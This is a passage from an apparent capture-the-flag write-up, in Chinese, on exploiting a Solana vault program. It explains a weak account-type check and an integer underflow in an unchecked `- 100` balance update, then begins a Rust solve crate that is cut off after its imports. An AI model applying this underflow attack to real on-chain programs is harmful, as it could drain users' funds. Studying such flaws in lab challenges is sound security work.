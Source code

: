 - 程序只检查用户提供的 vault 账户是否是 Vault 类型，因此可以使用 admin 创建的 vault

    ```rs
    if vault_data.discriminator != Types::Vault {
        return Err(ProgramError::InvalidAccountData);
    }
    ```

- 由于程序会检查 config 账户的 admin，因此 config 账户只能使用用户通过 Initialize 创建的，那么就需要修改 `total_balance`，而 `total_balance` 只能通过 Vote 修改
- 注意到在更新 `total_balance` 时，`-100` 没有使用 `checked_sub`，因而可通过下溢出得到充足的 `total_balance`

    ```rs
    // update the config total balance
    config_data.total_balance = config_data.total_balance.checked_add(lamports).unwrap() - 100; // keep some for rent
    ```

### Exploitation

```bash
$ cargo new solve
$ cd solve/
$ mv src/main.rs src/lib.rs
$ cargo add solana_program borsh
$ cargo-build-bpf
```

??? note "Cargo.toml"

    ```
    [package]
    name = "solve"
    version = "0.1.0"
    edition = "2021"

    [dependencies]
    borsh = "0.10.3"
    solana-program = "1.16.5"

    [lib]
    crate-type = ["cdylib", "rlib"]
    ```

!!! note "lib.rs"

    ```rs
    use borsh::{ BorshSerialize };
    use solana_program::{
        account_info::{ next_account_info, AccountInfo },
        instruction::{ AccountMeta, Instruction },
        entrypoint::ProgramResult,
        entrypoint,
        program::invoke,
        pubkey::Pubkey,
        system_program,
    };
